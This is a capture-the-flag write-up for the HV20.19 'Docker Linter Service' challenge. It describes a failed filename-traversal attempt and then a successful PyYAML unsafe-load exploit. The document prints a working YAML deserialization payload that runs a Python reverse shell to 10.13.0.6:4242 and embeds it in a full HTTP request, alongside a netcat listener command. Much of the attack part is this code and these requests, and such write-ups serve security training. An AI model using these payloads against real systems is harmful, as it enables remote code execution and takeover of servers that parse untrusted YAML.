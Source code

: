 # HV20.19 Docker Linter Service

| <!-- --> | <!-- --> |
| --- | --- |
| **Author**     | The Compiler |
| **Level**      | hard |
| **Categories** | `web security`, `exploitation` |

## Description
Docker Linter is a useful web application ensuring that your Docker-related files follow best practices. Unfortunately, there's a security issue in there...

### Requirements
This challenge requires a reverse shell. You can use the provided Web Shell or the VPN to solve this challenge (see `RESOURCES` on top).

Note: The VPN connection information has been updated.

## Approaches

I tried several potential approaches only one of them allowed me to successfully create a reverse shell.

### Failing: Abuse Content-Disposition header

This approach tried abusing the `filename` property of the `Content-Disposition` header. Web applications sometimes do not validate well filenames and therefore allow to override application files.

The following request generates a 500 error as I added a `filename` statement to the request in a place where no such statement was expected.
```
POST /env HTTP/1.1
Host: 6a282452-49f7-4ef9-9fba-c32ac07baca3.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------352734889893943994491840542
Content-Length: 710
Origin: https://6a282452-49f7-4ef9-9fba-c32ac07baca3.idocker.vuln.land
Connection: close
Referer: https://6a282452-49f7-4ef9-9fba-c32ac07baca3.idocker.vuln.land/env
Cookie: session=eyJjc3JmX3Rva2VuIjoiNWE4NDc0YjZiMTkxYzBjZGY4NzJjMDVjZWMxZTA0YzJkNDY5MmJhNSJ9.X95Rvw.c66m5LLW6FLAnrX-PBa0movpUrg
Upgrade-Insecure-Requests: 1

-----------------------------352734889893943994491840542
Content-Disposition: form-data; name="csrf_token"

IjVhODQ3NGI2YjE5MWMwY2RmODcyYzA1Y2VjMWUwNGMyZDQ2OTJiYTUi.X95aRg.zhO9krHN6eIQ27aOpTdsgnP8PYk
-----------------------------352734889893943994491840542
Content-Disposition: form-data; name="contents"; filename="/dev/urandom"

nananananananananananana=batman
-----------------------------352734889893943994491840542
Content-Disposition: form-data; name="uploaded"; filename=""
Content-Type: application/octet-stream


-----------------------------352734889893943994491840542
Content-Disposition: form-data; name="submit"

Submit
-----------------------------352734889893943994491840542--
```

As discovered later, this attack was prevented by using `utils.secure_filename(uploaded.filename)` in the app code.


### Failing: Find a RCE vulnerability in one of the dependencies

Next, I searched through the different tools that were invoked by the main app. I hoped for some unfixed RCE vulnerability in one of them. I did not find a vulnerability, though. Dependencies were:
- dockerlint.js: https://github.com/redcoolbeans/dockerlint
- hadolint: https://github.com/hadolint/hadolint
- dockerfile_lint: https://github.com/projectatomic/dockerfile_lint
- yamllint: https://github.com/adrienverge/yamllint
- docker-compose: https://github.com/docker/compose
- dotenv-linter: https://github.com/dotenv-linter/dotenv-linter


### Pyyaml RCE vulnerability

Finally, I got a hint to check for an RCE in pyyaml and indeed there's several exploits listed in the open ticket at https://github.com/yaml/pyyaml/issues/420. 

The issue, as indicated in the discussion was partially fixed, so `!!python/name:xxx` yaml tags are not interpreted any longer. So, I tried to use the object only approach as described at https://github.com/yaml/pyyaml/issues/420#issuecomment-663670547.

Locally, the following payload indeed worked (yay!):
```yaml
!!python/object/new:tuple [!!python/object/new:map [!!python/object/new:type [!!python/object/new:subprocess.Popen {}], [['ls']]]]
```

Once more a nice reverse shell payload was crafted inspired by https://github.com/swisskyrepo/PayloadsAllTheThings/blob/67752de6e9d927c2678b1c64357bc4450ed50ecf/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python.

Experimenting around led me to the conclusion that payloads accessing `/dev/tcp` or `/dev/udp` work in rare cases only, as these devices oftentimes are not available.

After some (long) fiddling and some help by *mcia*, I was able to have the following working payload:
```yaml
!!python/object/new:tuple [!!python/object/new:map [!!python/object/new:type [!!python/object/new:subprocess.Popen {}], [['python3', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.6",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")']]]]
```

Embedded into a request, this looks as follows:
```
POST /compose HTTP/1.1
Host: 391e7818-bff7-4975-9ea5-a7d701884dbb.idocker.vuln.land
Connection: close
Content-Length: 924
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="87", " Not;A Brand";v="99", "Chromium";v="87"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://391e7818-bff7-4975-9ea5-a7d701884dbb.idocker.vuln.land
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarybAfclg55CgdMZAnH
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://391e7818-bff7-4975-9ea5-a7d701884dbb.idocker.vuln.land/compose
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJjc3JmX3Rva2VuIjoiZmFiYWZiZjQ1Y2IwNjgwYWFkMjFmZGFkYTI3MzFiMzQyZTM2NTFiYiJ9.X98r3Q.8DZeJ-BtyuNTQiJMDAz6oabxZDQ

------WebKitFormBoundarybAfclg55CgdMZAnH
Content-Disposition: form-data; name="csrf_token"

ImZhYmFmYmY0NWNiMDY4MGFhZDIxZmRhZGEyNzMxYjM0MmUzNjUxYmIi.X98r4A.DZtbbXA1aeRf12PC85GECKA5n60
------WebKitFormBoundarybAfclg55CgdMZAnH
Content-Disposition: form-data; name="contents"

!!python/object/new:tuple [!!python/object/new:map [!!python/object/new:type [!!python/object/new:subprocess.Popen {}], [['python3', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.6",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")']]]]
------WebKitFormBoundarybAfclg55CgdMZAnH
Content-Disposition: form-data; name="uploaded"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarybAfclg55CgdMZAnH
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundarybAfclg55CgdMZAnH--
```

Again, on the client side, I prepared my netcat to listen on 4242 (`nc -nlvp 4242`) and, once the reverse shell connected, I was able to find the flag in the file `flag.txt`.

BTW, find the server [source code here](./dec19.tar.gz).

## Tools
- python3
- nc
- BurpSuite
- DuckDuck Go
- The Hacking-Lab VPN client, which did not work over my local network for some unknown but time absorbing reason 🙈

## Flag
`HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`

